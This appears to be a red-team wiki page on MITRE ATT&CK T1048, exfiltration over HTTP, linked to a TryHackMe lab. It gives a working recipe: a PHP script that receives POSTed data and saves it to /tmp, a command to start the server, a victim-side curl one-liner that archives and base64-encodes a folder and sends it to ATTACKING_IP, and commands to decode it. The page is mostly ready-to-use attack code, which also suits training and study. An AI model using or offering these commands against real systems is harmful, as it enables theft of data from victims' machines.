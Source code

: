 ```yaml
---
description: MITRE ATT&CK™  - Exfiltration Over Alternative Protocol - ID T1048
---
```


# Over HTTP(s)

## Theory

Exfiltration Over Alternative Protocol can be done using various common operating system utilities such as Net/SMB or FTP. On macOS and Linux curl may be used to invoke protocols such as HTTP/S

{% hint style="danger" %}
We can also use [HTTP(S) Tunneling](../../redteam/pivoting/http-tunneling.md) as a good [exfiltration](../../redteam/exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Curl" %}
We will host a simple PHP server in order to retrieve encoded POST data.

First write the following code in your `index.php` file

```php
<?php
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
}
?>
```

Second, start the PHP web-server in the same directory

```bash
# Start server on port 80
v4resk㉿kali$ php -S 0.0.0.0:80
```

On the victim computer, you can now send data through POST request. It will be saved at `/tmp/http.bs64`

```bash
# Linux
# Compress folder, base64, and send
user@victime$ curl --data "file=$(tar zcf - Bashed | base64)" http://ATTACKING_IP/
```

On attacking machine, we can decode now decode it:

```bash
# Decode compressed folders
v4resk㉿kali$ sed -i 's/ /+/g' /tmp/http.bs64
v4resk㉿kali$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
